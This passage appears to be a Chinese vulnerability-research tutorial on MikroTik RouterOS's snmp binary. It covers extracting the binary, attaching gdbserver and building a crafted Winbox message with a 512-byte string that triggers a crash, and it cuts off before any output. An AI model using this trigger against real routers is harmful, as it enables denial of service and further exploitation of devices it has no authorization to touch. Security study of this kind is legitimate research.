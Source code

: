 ### 获取目标程序

目标程序为 `/nova/bin/snmp`，我们将它复制到 `/rw/disk` 目录下面然后用上面的小脚本获取即可。

```bash
# in RouterOS root shell
cp /nova/bin/snmp /rw/disk

# in host shell
python mftp.py -u <uname> -p <pwd> --ip <ip> -o get -f snmp
```

### 调试目标

```bash
./gdbserver :12345 --attach $(pidof snmp)
```

### 触发漏洞

这里不提供完整 PoC，只给出触发漏洞的关键部分（这一部分也可以在 [pocs\_slides/slides/POC2022-MikroTik\_RouterOS\_Security-The\_Forgotten\_IPC\_Message.pdf](https://github.com/cq674350529/pocs_slides/blob/master/slides/POC2022-MikroTik_RouterOS_Security-The_Forgotten_IPC_Message.pdf) 中找到）：

```bash
char payload[513];
    memset(payload, 'a', sizeof(char) * 512);
    WinboxMessage msg;
    msg.set_to(34, 0x1);
    msg.set_command(0xfe0005);
    msg.add_u32(0x14, 0xfffffffe);
    msg.add_string(0x5, payload);
    msg.set_request_id(1);
```

这个 payload 的 JSON 构造为：

```bash
{u14:0xfffffffe,uff0006:1,uff0007:0xfe0005,s5:'a'*512,Uff0001:[34,1]}
```

根据前置知识，我们可以了解到：

1.  它要访问的是 `/bin/snmp` 的第一个 handler；
2.  它希望添加对象；
3.  它定义了一个 u32 数字 0xfffffffe；
4.  它定义了一个字符串 payload；
5.  它设置了 `SYS_REQID` 为 1。

可以触发崩溃：
